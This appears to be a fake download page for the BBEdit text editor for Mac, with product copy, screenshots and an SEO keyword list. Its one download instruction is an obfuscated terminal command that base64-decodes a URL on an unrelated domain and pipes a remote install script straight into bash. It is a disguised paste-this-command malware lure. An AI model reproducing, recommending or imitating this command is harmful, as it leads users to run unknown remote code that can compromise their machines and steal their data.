 # BBEdit Download Mac - Professional Text & Code Editor

![BBEdit Screenshot 1](https://www.barebones.com/images/bbedit/screenshot-main.jpg)

---

### 🔽 Download BBEdit for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is BBEdit for Mac?

BBEdit is a professional-grade text and code editor designed exclusively for macOS. It offers powerful tools for coding, text manipulation, and documentation, making it the perfect choice for developers, writers, and power users. With its intelligent interface and advanced features, BBEdit simplifies complex text processing while delivering unmatched performance.

Unlike other text editors, BBEdit features grep pattern matching, syntax highlighting for 100+ languages, and seamless Unix integration. It's optimized for macOS (including Apple Silicon) for blazing-fast operation. Whether you're writing scripts, editing logs, or crafting documentation, BBEdit provides everything you need to work efficiently.

With native macOS integration, Dark Mode support, and extensibility through scripts, BBEdit offers a complete text editing solution right at your fingertips.

![BBEdit Screenshot 2](https://static.01net.it/01net/2019/04/BBEdit-4.jpg)

---

## Key Features & Benefits

- ✨ Syntax highlighting for 100+ languages  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🔍 Advanced grep pattern matching  
- 🖥 Native macOS integration with Dark Mode  
- 📝 Perfect for coding and text manipulation  
- 💻 Trusted by professionals worldwide  

Whether you're developing software, writing documentation, or processing large text files, BBEdit delivers precision and power.

---

## 🔍 Keywords

BBEdit for Mac, BBEdit Mac Download, BBEdit for Mac Download, BBEdit Mac, BBEdit Download Mac, BBEdit Download for Mac, BBEdit full version, Mac Download BBEdit, Download Mac BBEdit, Download BBEdit Mac, Download BBEdit for Mac
